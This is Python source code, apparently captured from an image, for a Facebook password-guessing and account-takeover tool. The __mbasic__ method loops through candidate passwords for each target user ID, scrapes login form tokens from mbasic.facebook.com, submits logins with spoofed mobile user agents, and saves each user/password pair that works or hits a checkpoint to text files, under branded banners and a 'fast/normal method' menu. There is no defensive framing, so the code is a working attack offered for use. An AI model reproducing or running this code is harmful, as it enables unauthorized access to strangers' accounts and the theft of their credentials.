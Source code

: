             
     
		self.__pler__()
	def __mbasic__(self, user, _sempak_):
		global ok,cp,loop
		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mKing\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;32mOK-{len(ok)}\033[1;37m] ")
		sys.stdout.flush()
		for pw in _sempak_:
			pw = pw.lower()
			try: os.mkdir('')
			except: pass
			try:
				ua_xiaomi = open('agent.txt', 'r').read()
			except (KeyError, IOError):
				ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
			ses = requests.Session()
			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post("https://mbasic.facebook.com/login/device-based/vKingdate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
			if 'c_user' in ses.cookies.get_dict():
				print('\r\033[1;37m[\033[1;32m𝗥𝗔𝗝-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('𝗥𝗔𝗝_Ok.txt','a').write('%s\n' % wrt)
				break
			elif 'checkpoint' in ses.cookies.get_dict():
				print('\r\033[1;37m[\033[1;31m𝗥J-CP\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('cp.txt','a').write('%s\n' % wrt)
				break
			else:
				continue
		loop += 1
	def __pler__(self):
		os.system("clear")
		print(banner)
		print ("\033[1;37m [1] \033[1;36mMETHOD FAST ")
		print ("\033[1;37m [2] \033[1;36mMETHOD NORMEL ")